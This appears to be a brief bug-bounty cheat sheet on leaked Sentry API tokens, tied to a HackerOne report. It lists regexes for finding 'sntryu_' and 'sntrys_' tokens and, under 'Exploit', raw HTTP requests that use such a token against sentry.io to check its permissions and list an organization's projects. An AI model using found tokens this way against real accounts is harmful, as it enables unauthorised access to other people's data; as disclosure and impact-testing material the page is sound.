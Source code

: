 # Sentry Token

## Search

```
/sntryu_/
```

```
/sntrys_/
```

## Exploit

Check token permission

```
GET /api/0/ HTTP/2
Host: sentry.io
Authorization: Bearer sntrys_eyJpYXQiOj**
```



Exploit

```
GET /api/0/organizations/[name-org]/projects/ HTTP/2
Host: sentry.io
Authorization: Bearer sntryu_[token]
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Cache-Control: max-age=0


```

{% embed url="https://hackerone.com/reports/2412983" %}
